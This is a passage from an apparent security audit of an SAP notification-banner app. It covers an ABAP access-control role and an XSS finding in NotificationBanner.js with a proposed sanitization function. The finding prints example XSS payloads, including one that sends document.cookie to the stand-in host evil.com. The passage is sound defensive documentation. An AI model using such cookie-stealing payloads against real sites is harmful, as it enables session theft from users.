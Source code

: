 
Add DCL (Data Control Language):
```abap
@EndUserText.label: 'Access control for notification messages'
@MappingRole: true
define role ZTNOTIFY_MESSAGES {
  grant select on ZTNOTIFY_MESSAGES
    where inheriting conditions from entity ZTNOTIFY_MSGS;
}
```

---

#### 2. **XSS (Cross-Site Scripting) Vulnerability**
**File**: `webapp/controller/NotificationBanner.js:265`
**Severity**: 🔴 CRITICAL
**Issue**: User-provided notification text is displayed without sanitization

**Current Code**:
```javascript
this._currentBanner = new MessageStrip({
    text: notification.title + ": " + notification.message_text,  // ❌ NO SANITIZATION
    type: messageType,
    showIcon: true,
    showCloseButton: true
});
```

**Vulnerability**: Malicious admin can inject HTML/JavaScript in notification text:
```
Example: <script>alert(document.cookie)</script>
Example: <img src=x onerror="fetch('https://evil.com?cookie='+document.cookie)">
```

**Required Fix**:
```javascript
/**
 * Sanitize text to prevent XSS attacks
 * @private
 * @param {string} sText - Text to sanitize
 * @returns {string} Sanitized text
 */
_sanitizeText: function(sText) {
    if (!sText) {
        return "";
    }

    // Remove all HTML tags except whitelisted ones
    var sSanitized = sText.replace(/<(?!\/?(?:b|i|u|br)\b)[^>]*>/gi, "");

    // Encode special characters
    sSanitized = sSanitized
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/'/g, "&#x27;")
        .replace(/\//g, "&#x2F;");

    return sSanitized;
},

_showBanner: function() {
    // ... existing code ...

    var notification = this._notifications[this._currentBannerIndex];
    var messageType = this._getMessageType(notification.severity);
```